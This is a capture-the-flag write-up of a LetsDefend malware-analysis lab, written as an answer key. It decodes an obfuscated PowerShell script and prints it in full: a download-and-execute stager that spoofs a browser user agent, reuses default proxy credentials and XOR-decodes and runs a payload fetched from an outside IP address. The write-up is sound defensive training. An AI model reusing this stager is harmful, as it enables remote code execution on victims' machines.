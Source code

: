 ```yaml
---
tags:
  - ctf
  - cyber
  - malware
---
```


--------------
**Challenge Description**

You've come across a puzzling Base64 script, seemingly laced with malicious intent. Your mission, should you choose to accept it, is to dissect and analyze this script, unveiling its true nature and potential risks. Dive into the code and reveal its secrets to safeguard our digital realm. Good luck on this daring quest!  
**Tool Needed:** Cyberchef  
**File Location:** C:\Users\LetsDefend\Desktop\script.txt
This challenge prepared by [ZaadoOfc](https://www.linkedin.com/in/zaid-shah-05527a22b/)  
**Credit:** csnp.org

----------------------------------
**Questions**

What encoding is the malicious script using?

What parameter in the powershell script makes it so that the powershell window is hidden when executed?

What parameter in the Powershell script prevents the user from closing the process?

What line of code allows the script to interact with websites and retrieve information from them?

What is the user agent string that is being spoofed in the malicious script?

What line of code is used to set the proxy credentials for authentication in the script?

When the malicious script is executed, what is the URL that the script contacts to download the malicious payload?

----------------------------------

When you click Lab Environment Connect button on LetsDefend we see a Windows 10 VM and in the desktop this is our PowerShell Script.


![[Pasted image 20240125103221.png]]

So let's answer the questions

1 - What encoding is the malicious script using?
**Answer: `Base64`**

You can use CyberChef Magic Extension or different encoding identifiers to learn which encoding applied to a string

2- What parameter in the powershell script makes it so that the powershell window is hidden when executed?
**Answer: `-W Hidden`**

-W or -Windows Style is an argument for PowerShell. -W Hidden used for -Windows Style Hidden argument.

3- What parameter in the Powershell script prevents the user from closing the process?
**Answer: `-NonI`**

NonI parameter means Non Interactive, This parameter disables the ability for commands to attempt to prompt. So user can't interrupt the process


After this step we should decode the string. You can do it with terminal or online tools. I preferred to use online decoders. After decoding string here I get the clear PowerShell Script

`$WC=New-ObjEcT SySTeM.NET.WebCliENt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$WC.HeADeRS.ADd('User-Agent',$u);$Wc.ProxY = [System.NeT.WEBReQUEst]::DEFAuLtWebProXy;$wc.PROxY.CrEdenTialS = [SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls;$K='IM-S&fA9Xu{[)|wdWJhC+!N~vq_12Lty';$i=0;[CHaR[]]$B=([cHaR[]]($wc.DOwNLOaDStriNg("http://98.103.103.170:7443/index.asp")))|%{$_-BXoR$K[$I++%$k.LEnGTH]};IEX ($B-jOIn'')`


4- What line of code allows the script to interact with websites and retrieve information from them?
**Answer: `$WC=New-Object System.Net.WebClient`**

WebClient class provides common methods for sending or receiving data from internet

5- What is the user agent string that is being spoofed in the malicious script?
**Answer: `Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko`**

The user agent string contains information that a web browser uses to identify itself to a server

6- What line of code is used to set the proxy credentials for authentication in the script?
**Answer:` $wc.PROxY.CrEdenTialS = [SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls`** 

Sets the proxy credentials to the default network credentials.

7- When the malicious script is executed, what is the URL that the script contacts to download the malicious payload?
**Answer: `http://98.103.103.170:7443/index.asp`**

The URL in Web Client Download String Command. `$wc.DOwNLOaDStriNg("http://98.103.103.170:7443/index.asp"`
